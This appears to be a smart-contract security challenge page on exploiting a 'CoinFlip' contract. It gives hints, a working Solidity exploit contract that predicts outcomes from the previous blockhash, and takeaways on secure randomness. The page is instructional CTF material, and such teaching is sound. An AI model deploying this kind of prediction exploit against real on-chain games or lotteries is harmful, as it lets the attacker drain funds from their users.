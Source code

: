 ```yaml
---
title: "Challenge #3: Coin Flip"
sidebar:
    order: 3
---
```



In this challenge, you need to exploit the `CoinFlip` contract to predict the outcome of the coin flip 10 times in a row.

## Hints

<Hint index={1}>
    The `CoinFlip` contract uses a random number to determine the outcome of a coin flip. How is this random number
    generated? Look at the code that calculates the outcome.
</Hint>

<Hint index={2}>
    The Solidity `block` object can provide information about the blockchain. How does the contract use `block.number`
    and `blockhash` to determine the coin flip? Are these values predictable?
</Hint>

<Hint index={3}>
    Consider the predictability of `block.number` and `blockhash`. Can you create a contract or a script that calculates
    the result of the coin flip before calling the `flip` function? How can you synchronize with the block in which the
    contract's `flip` function is executed?
</Hint>

## Solution

<Solution>
    The `CoinFlip` contract calculates the outcome of a coin flip using the following formula:

    ```solidity
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    ```

    The value of `blockhash(block.number - 1)` is predictable since it refers to the hash of the previous block. This
    allows you to calculate the result of the coin flip before calling the `flip` function.

    To exploit this, you can create a helper contract that predicts the outcome and then calls the `flip` function with
    the correct guess. Here is a sample contract:

    ```solidity
    pragma solidity ^0.6.0;

    import './CoinFlip.sol';

    contract CoinFlipExploit {
    CoinFlip public coinFlipContract;
    uint256 FACTOR = 1 << 255;

    constructor(address _coinFlipAddress) public {
    coinFlipContract = CoinFlip(_coinFlipAddress);
}

    function predictAndFlip() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    coinFlipContract.flip(side);
}
}
    ```

    Deploy this exploit contract with the address of the `CoinFlip` contract, then repeatedly call the `predictAndFlip`
    function to win the coin flip 10 times in a row.
</Solution>

## Conclusion

<Conclusion>
    <Fragment slot="takeaways">
        This challenge highlights the importance of secure random number generation in smart contracts. Key takeaways
        include:

        1. The `blockhash` and `block.number` values are predictable and should not be used for secure randomness.
        2. Understanding the implications of blockchain determinism and how miners can manipulate block attributes.
        3. Implementing more secure methods for random number generation, such as using oracles or off-chain sources.

        These concepts are crucial for developing secure smart contracts that rely on randomness.
    </Fragment>

    <Fragment slot="hacks">
        Predictable random number generation has led to several hacks and vulnerabilities in the blockchain space. One
        notable example is the use of predictable values like `blockhash` and `timestamp` to generate "random" numbers,
        which attackers can exploit to their advantage.
    </Fragment>

    <Fragment slot="resources">
        - [Solidity Documentation on Block Properties](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties) - This link provides information on block properties and their uses.
        - [Randomness on the Blockchain](https://blog.chain.link/randomness-on-the-blockchain/) - An article discussing
        the challenges and solutions for generating random numbers on the blockchain.
    </Fragment>
</Conclusion>